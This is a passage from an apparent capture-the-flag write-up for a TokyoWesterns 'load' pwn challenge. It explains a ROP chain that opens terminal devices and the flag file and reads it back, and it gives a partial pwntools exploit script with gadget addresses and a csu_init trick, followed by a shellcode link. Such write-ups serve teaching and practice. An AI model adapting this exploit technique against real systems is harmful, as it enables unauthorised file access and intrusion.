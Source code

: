 Now that we can leak, we just have to write a simple ROP chain to open the flag file and read it back to ourselves. The following ROP chain followed the flow:
 ```open("/dev/pts/?") * 2 => open("/home/load/flag.txt") => read(3(flag), 0x601000(random bss addr), 10000)```
 using our `filename` buffer in the bss to store filenames for the three files, since it has a static address.

 Note: `/dev/pts/?` has question mark as it seems that the pts our connection uses keeps changing, but randomly picking between 0-3 seemed to work reliably enough for our purposes. Also, there weren't easy gadgets for a `pop rdx` instruction for the third argument in the `read` call, so I had to use `csu_init`, which helps to set my rdx register.


```
#!/usr/bin/python
from pwn import *
import sys

HOST = "pwn1.chal.ctf.westerns.tokyo"
PORT = 34835

def rdi(a):
    return p64(0x400a73) + p64(a)

def rsi(a):
    return p64(0x400a71) + p64(a) + p64(0xdeadbeef)

def rdx(a): #rbp must be 1
    out = p64(0x400a6b)  # pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
    out += p64(1)
    out += p64(0x600FC0) # GOT_close
    out += p64(a)
    out += p64(0x1337)*2
    out += p64(0x400A46) # mov rdx, r13
    out += "A"*8*7       # rbx, rbp, r12, r13, r14, r15
    return out

def exploit(r):
    rop = "A"*56
    rop += rdx(0)
    rop += rsi(0x2702)
    rop += rdi(0x601040+len("/proc/self/fd/0\x00")) # "/dev/tty"
    rop += p64(0x400710) # PLT_open

    rop += rdx(0)
    rop += rsi(0x2702)
    rop += rdi(0x601040+len("/proc/self/fd/0\x00")) # "/dev/tty"
    rop += p64(0x400710) # PLT_open

    rop += rdx(0)
    rop += rsi(0)
    rop += rdi(0x601040+len("/proc/self/fd/0\x00" + "/dev/pts/"+sys.argv[1]+"\x00")) # "/etc/passwd"
    rop += p64(0x400710) # PLT_open

    rop += rdx(10000)
    rop += rsi(0x601000)
    rop += rdi(2)        # "flag"
    rop += p64(0x4006E8) # PLT_read


[shellcode]: http://shell-storm.org/shellcode/files/shellcode-219.php